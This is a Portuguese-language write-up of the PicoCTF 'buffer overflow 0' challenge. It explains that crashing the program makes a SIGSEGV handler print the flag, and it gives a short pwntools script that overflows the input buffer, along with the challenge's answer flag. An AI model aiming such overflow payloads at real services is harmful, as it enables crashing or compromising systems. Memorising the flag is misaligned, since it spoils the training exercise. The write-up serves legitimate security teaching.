 # WriteUp: buffer overflow 0
## Descrição do Desafio:
**Autor**: Alex Fulton / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/257?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Let's start off simple, can you overflow the correct buffer?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
O próprio desafio já fornece o arquivo fonte, `vuln.c`. Não há muito o que ver neste arquivo, nele podemos identificar vulnerabilidades de `buffer overflow`, mas a principal coisa a se notar é o seguinte trecho de código:

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
signal(SIGSEGV, sigsegv_handler);
```

{% endcode %}

Este trecho está dizendo que quando ocorrer um evento de `SIGSEGV`, *segmentation fault*, é para a função `sigsegv_handler` ser chamada. Dando uma olhada nessa função podemos ver que ela imprime a **flag** para nós.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

{% endcode %}

### 2. Solução
Como dito anteriormente, o código está cheio de vulnerabilidades de `buffer overflow`, então se estourarmos qualquer *buffer*, causamos um erro de *segmentation fault* e a **flag** é popada para nós.

### 2.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

p = remote(ip, porta) //Troque pelos valores fornecidos.

payload = "sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss"

p.sendlineafter(b"Input: ", payload)

print(p.recvline().decode())
```

{% endcode %}

### Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
